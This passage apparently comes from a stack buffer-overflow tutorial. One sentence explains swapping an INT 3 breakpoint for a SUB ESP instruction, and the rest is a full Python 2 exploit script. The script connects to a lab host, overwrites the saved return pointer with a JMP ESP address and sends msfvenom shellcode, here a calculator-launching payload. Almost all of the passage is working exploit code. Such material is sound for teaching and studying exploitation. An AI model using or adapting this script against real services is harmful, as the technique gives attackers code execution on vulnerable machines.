 Replacing the `"INT 3"` code in our exploit with this `"SUB ESP,0x10"` code,
followed by our `msfvenom` shellcode, gives us the following:

```{.python .numberLines}
#!/usr/bin/env python2
import socket
import struct

RHOST = "172.17.24.132"
RPORT = 31337

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST, RPORT))

buf_totlen = 1024
offset_srp = 146

ptr_jmp_esp = 0x080414C3

sub_esp_10 = "\x83\xec\x10"

shellcode_calc =  ""
shellcode_calc += "\xb8\x3e\x08\xbf\x9c\xdb\xdc\xd9\x74\x24"
shellcode_calc += "\xf4\x5f\x29\xc9\xb1\x31\x31\x47\x13\x03"
shellcode_calc += "\x47\x13\x83\xc7\x3a\xea\x4a\x60\xaa\x68"
shellcode_calc += "\xb4\x99\x2a\x0d\x3c\x7c\x1b\x0d\x5a\xf4"
shellcode_calc += "\x0b\xbd\x28\x58\xa7\x36\x7c\x49\x3c\x3a"
shellcode_calc += "\xa9\x7e\xf5\xf1\x8f\xb1\x06\xa9\xec\xd0"
shellcode_calc += "\x84\xb0\x20\x33\xb5\x7a\x35\x32\xf2\x67"
shellcode_calc += "\xb4\x66\xab\xec\x6b\x97\xd8\xb9\xb7\x1c"
shellcode_calc += "\x92\x2c\xb0\xc1\x62\x4e\x91\x57\xf9\x09"
shellcode_calc += "\x31\x59\x2e\x22\x78\x41\x33\x0f\x32\xfa"
shellcode_calc += "\x87\xfb\xc5\x2a\xd6\x04\x69\x13\xd7\xf6"
shellcode_calc += "\x73\x53\xdf\xe8\x01\xad\x1c\x94\x11\x6a"
shellcode_calc += "\x5f\x42\x97\x69\xc7\x01\x0f\x56\xf6\xc6"
shellcode_calc += "\xd6\x1d\xf4\xa3\x9d\x7a\x18\x35\x71\xf1"
shellcode_calc += "\x24\xbe\x74\xd6\xad\x84\x52\xf2\xf6\x5f"
shellcode_calc += "\xfa\xa3\x52\x31\x03\xb3\x3d\xee\xa1\xbf"
shellcode_calc += "\xd3\xfb\xdb\x9d\xb9\xfa\x6e\x98\x8f\xfd"
shellcode_calc += "\x70\xa3\xbf\x95\x41\x28\x50\xe1\x5d\xfb"
shellcode_calc += "\x15\x0d\xbc\x2e\x63\xa6\x19\xbb\xce\xab"
shellcode_calc += "\x99\x11\x0c\xd2\x19\x90\xec\x21\x01\xd1"
shellcode_calc += "\xe9\x6e\x85\x09\x83\xff\x60\x2e\x30\xff"
shellcode_calc += "\xa0\x4d\xd7\x93\x29\xbc\x72\x14\xcb\xc0"

buf = ""
buf += "A"*(offset_srp - len(buf))      # padding
buf += struct.pack("<I", ptr_jmp_esp)   # SRP overwrite
buf += sub_esp_10                       # ESP points here
buf += shellcode_calc
buf += "D"*(buf_totlen - len(buf))      # trailing padding
buf += "\n"

s.send(buf)
```

---